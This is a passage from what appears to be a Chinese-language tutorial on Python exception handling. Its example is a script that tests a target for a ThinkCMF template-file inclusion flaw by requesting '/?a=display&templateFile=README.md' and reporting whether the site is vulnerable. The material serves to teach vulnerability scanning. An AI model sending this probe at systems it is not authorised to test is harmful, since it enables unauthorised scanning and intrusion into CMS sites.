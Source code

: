 上述原因就是由于代码出现了异常，而并没有相应的代码去处理python脚本中的异常，那么就会导致，运行时间很长，同时出现报错。

那么想要解决这些报错以及运行时间很长的情况，我们就需要使用到python中异常处理，也就是`try:`，这里我是专业的程序猿，我怕解释不清楚，这里我就放一个参考文章，去学习！

参考文章：[python异常处理（十分钟彻底搞定！）-CSDN博客](https://blog.csdn.net/weixin_46900108/article/details/119737680)

```python
try:
    #尝试执行的代码
    pass
except 错误类型1:
    #针对错误类型1，对应的代码处理
    pass
except(错误类型2,错误类型3):
    #针对错误类型2 和3 对应的代码处理
    pass
except Exception as result:
    print("未知错误 %s" %result)
```

根据上述我们来修改一些代码，之前代码解释过的地方，我就不再解释了，这里我们解决掉，脚本报错的问题了，但是对于页面的响应还是需要很长时间，我们后续在修改。

```python
import requests


payload = "/?a=display&templateFile=README.md"

url = f"http://10.1.22.33:80{payload}"

headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
           "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
           "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3", "Accept-Encoding": "gzip, deflate, br",
           "DNT": "1", "Connection": "close"}

##开始捕捉错误异常
try:
    ##尝试执行语句，发送get请求。
    r = requests.get(url, headers=headers)
    ##进行判断
    if "ThinkCMF是一款" in r.text:
        print("存在漏洞")
    else:
        print("不存在漏洞")
##如果上述语句执行的不顺利，也就相当于例如IP地址不通、端口不通等等情况，那么就执行下述内容：您输入的有误
except Exception as e:
    print("您输入的有误")
```
